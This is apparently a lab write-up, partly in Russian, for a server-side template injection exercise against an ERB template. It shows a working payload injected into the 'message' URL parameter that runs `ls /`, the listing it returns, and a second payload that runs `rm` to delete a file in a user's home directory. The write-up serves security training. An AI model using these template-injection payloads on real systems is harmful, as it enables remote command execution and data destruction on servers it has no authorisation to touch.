 # Basic server-side template injection
PRACTITIONER

This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

## Решение
При открытии первого товара открывается страница `/?message=Unfortunately%20this%20product%20is%20out%20of%20stock`.

В условии сказано, что приложение использует ERB в качестве шаблонизатора. Попробую передать в качестве значения параметра message следующую строку:
```
<%= `ls /` %>
```
Работает:
```
<div>academy
bin
boot
dev
ecs-execute-command-5b77d449-f933-4204-a8fb-3db51b0b258b
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
</div>
```
Удаление файла morale.txt из домашнего каталога пользователя carlos:
```
?message=<%= `rm /home/carlos/morale.txt` %>
```
Задание выполнено.